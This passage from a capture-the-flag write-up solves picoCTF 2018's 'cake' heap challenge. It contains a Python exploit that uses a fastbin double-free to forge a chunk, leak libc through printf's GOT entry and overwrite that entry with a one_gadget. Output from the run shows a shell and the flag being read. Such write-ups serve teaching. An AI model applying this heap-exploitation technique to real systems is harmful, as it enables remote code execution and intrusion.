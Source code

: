 ```fgets_eat(shop->counter[0]->name, 8);``` to overwrite ```counter[0]``` with our target address, then ```shop->counter[0]->price = get();``` gives us arbitrary write. 
    '''
    set customers to 0x21 so we can control more of the array,
    and so that it is a valid chunk
    '''
    shop = 0x6030e0 #address of shop struct
    p_plt = 0x603048 # &printf.got
    p_off = 0x55800 # offset from libc base to printf
    one_gadget = 0x45216 # magic one gadget

    A = alloc(p, "", 16)
    B = alloc(p, "", 17)
    free(p, A) # A->bk NULL, A = fastbin freelist top
    free(p, B) # B->bk = A, B = fastbin freelist top
    free(p, A) # A->bk = B, A = fastbin freelist top
    # overwrite A->bk with fake chunk before shop. (set shop->price and fchunk size)
    C = alloc(p, "", int(shop-0x8))

    D = alloc(p, "", 0) # next malloc returns B
    E = alloc(p, "", 0) # this alloc returns A
    # Next alloc returns shop+0x8. Overwrite customers with shop-0x8 and counter[0] with got addr
    F = alloc(p, struct.pack("L", p_plt), int(shop-0x8))

    # Libc leak from dereferencing overwritten counter[0]
    libc = leak(p, 0) - p_off
    log.info('libc base is at: ' + hex(libc))
    # Next step is redoing step 1) except now the forged chunk->fd will point to shop-0x8
    # Then we will NULL out counter[0]
    # The following address will be shop-0x8 which means counter[0]->name will overwrite counter[0]
    # And we can get an arbitrary write primitive

    #you know the drill
    free(p, D) # D->bk NULL, D fastbin freelist head
    free(p, E) # E->bk NULL, E fastbin freelist head
    free(p, D) # D->bk = E, D fastbin freelist head
    # overwrite D->bk with fake chunk before shop
    G = alloc(p, "", int(shop-0x8))

    H = alloc(p, "", 0) # this malloc returns E
    I = alloc(p, "", 0) # this malloc returns D
    J = alloc(p, struct.pack("L", 0), 0) # this malloc returns shop+0x8
    K = alloc(p, struct.pack("L", p_plt), libc + one_gadget)

    p.interactive()

break_heap()
```

Lets try it out:

```bash ./cake_exploit.py
[+] Opening connection to 2018shell2.picoctf.com on port 42542: Done
[*] libc base is at: 0x7fdcc7a8d000
[*] Switching to interactive mode
 $ id
uid=1122(cake_1) gid=1123(cake_1) groups=1123(cake_1)
$ ls
cake
flag.txt
libc.so.6
xinet_startup.sh
$ cat flag.txt
picoCTF{h4v3_y0ur_c4k3_4nd_s311_1t_t00_flhcejwu}
$ 
[*] Closed connection to 2018shell2.picoctf.com port 42542
```